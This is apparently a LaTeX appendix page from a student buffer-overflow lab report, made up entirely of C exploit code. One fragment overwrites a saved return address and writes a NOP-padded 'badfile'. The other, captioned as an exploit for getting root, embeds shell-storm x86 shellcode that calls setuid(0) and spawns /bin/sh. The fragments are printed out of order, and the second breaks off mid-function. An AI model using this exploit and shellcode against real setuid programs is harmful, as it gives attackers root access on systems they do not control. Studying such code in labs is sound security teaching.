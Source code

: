 \documentclass[12pt, a4paper, pdflatex]{article}
\begin{document}
\begin{appendices}
\begin{lstlisting}
  /* We use address of buffer as reference, but we want to jump a bit more into the stack, yet not too far */
  fcP += 80;
  
  /* Place the address we want to in a position that would overwrite return address (16 bytes into stack) */
  long addr = fcP;
  long *ptr = (long*)(buffer + 16);
  *(ptr) = addr;
  
  /* Copy shellcode */
  memcpy(address_to_copy_to, shellcode, shell_code_size);
  
  /* Save the contents to the file "badfile" */
  badfile = fopen("./badfile", "w");
  fwrite(buffer, 517, 1, badfile);
  fclose(badfile);
}
\end{lstlisting}

\lstset{
	captionpos=b,
	frame=single,
	language=C,
	breaklines=true,
	caption=Exploit for getting root with bash,
	label=bof:exploit2
}
\begin{lstlisting}
/* exploit.c - Bash version  */
/* A program that creates a file containing code for launching shell*/
#include <stdlib.h>
#include <stdio.h>
#include <string.h>

/* 
	Shell code from: 
	http://shell-storm.org/shellcode/files/shellcode-598.php 
*/
char shellcode[]=
"\x31\xdb"             /* xor    %ebx,%ebx       */
"\x8d\x43\x17"         /* lea    0x17(%ebx),%eax */
"\xcd\x80"             /* int    $0x80           */
"\x53"                 /* push   %ebx            */
"\x68\x6e\x2f\x73\x68" /* push   $0x68732f6e     */
"\x68\x2f\x2f\x62\x69" /* push   $0x69622f2f     */
"\x89\xe3"             /* mov    %esp,%ebx       */
"\x50"                 /* push   %eax            */
"\x53"                 /* push   %ebx            */
"\x89\xe1"             /* mov    %esp,%ecx       */
"\x99"                 /* cltd                   */
"\xb0\x0b"             /* mov    $0xb,%al        */
"\xcd\x80"             /* int    $0x80           */
;

void main(int argc, char **argv)
{  
	char buffer[517];
	FILE *badfile;
	long fcP;
	int buffer_size, shell_code_size;
	
	buffer_size = sizeof(buffer);
	shell_code_size = sizeof(shellcode);
	
	/* Initialize buffer with 0x90 (NOP instruction) */
	memset(&buffer, 0x90, 517);
	
	/* You need to fill the buffer with appropriate contents here */
	printf("Size of shellcode: %d\n", sizeof(shellcode));
	
	/* Print stack pointer */
	fcP = &buffer;
	

\end{lstlisting}
\end{appendices}
\end{document}
